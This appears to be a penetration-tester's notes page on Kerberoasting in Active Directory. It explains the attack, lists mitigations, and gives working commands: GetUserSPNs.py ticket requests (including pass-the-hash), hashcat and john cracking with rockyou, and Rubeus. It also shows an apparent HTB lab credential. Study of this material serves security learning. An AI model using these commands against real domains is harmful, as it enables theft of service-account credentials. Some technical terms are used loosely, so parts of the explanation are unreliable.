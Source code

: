 # Kerberoasting

## Introduction

Kerberos encrypts Ticket Granting Tickets (TGTs) that are provided from the Domain Controller (DC) -- Which typically acts as the Key Distribution Center (KDC) against a user's Kerberos hash. <mark style="color:red;">Kerberoasting</mark> means that <mark style="color:yellow;">a user has a Service Principal Name (SPN) associated with it</mark>. We can then theoretically request the SPN from the DC to send us the hash for us to crack. Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.

Note: You NEED valid credentials inside the domain to perform this attack.

## High-Level Understanding

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* It is important that we focus on the <mark style="color:yellow;">KRB-TGS-REQ</mark> and <mark style="color:yellow;">KRB-TGS-REP</mark>
* With the <mark style="color:yellow;">REQ portion</mark>, you are requesting the TGT from the TGS
* With the <mark style="color:yellow;">REP portion</mark>, you are obtaining the <mark style="color:yellow;">TGT reply</mark> that is <mark style="color:yellow;">encrypted with the NTLM hash</mark> of the account that the service is running under&#x20;
  * This is typically a <mark style="color:yellow;">SPN</mark>
  * What does this look like?&#x20;
    * <mark style="color:yellow;">mssql\_svc</mark>
    * <mark style="color:yellow;">MSSQL/sql1@htb.local</mark>
    * <mark style="color:yellow;">Service/hostname@domain</mark>
* You can then take the NTLM hash offline (obtained from the Kerberos TGT Reply message) and crack it
* You can <mark style="color:yellow;">execute this attack remotely or locally</mark> as long as you have <mark style="color:yellow;">valid account credentials</mark>

### Mitigation Strategies

* Since kerberoasting takes advantage of the pure nature of Kerberos, there is no official mitigation strategy for it, simply recommendations
* Therefore, enforcing strong and complex passwords throughout your domain is the best way to mitigate this threat
* Rotate these credentials often; expiration times
* Make sure your service accounts are using the least privilege possible
  * Do NOT put these accounts in the domain admins group

## How To

### Get-UserSPNs.py

* Check if the user has a SPN with the following command:

```python
Get-UserSPNs.py -request -dc-ip <IP> search.htb/hope.sharp:IsolationIsKey

# The SPN will appear as RESEARCH/web_svc.search.htb:60001
# You will also get a hash, save it and crack with John

john --wordlist=/usr/share/wordlists/rockyou.txt hash

# Or Hashcat

hashcat -m 13100 -a 0 kerberoast.txt /usr/share/wordlists/rockyou.txt
# -a 0 -- Execute dictionary attack against provided details with specified wordlist
```

```
# Domain Account/Credentials Method
GetUserSPNs.py -request -dc-ip 192.168.2.160 <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted

# Domain Account/Credentials Method w/ Pass The Hash
GetUserSPNs.py -request -dc-ip 192.168.2.160 -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
```

### Grepping for Hashcat Formats

```
hashcat --help | grep etype
```

### Rubeus

```
Rubeus.exe kerberoast
```

## Reference

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast" %}
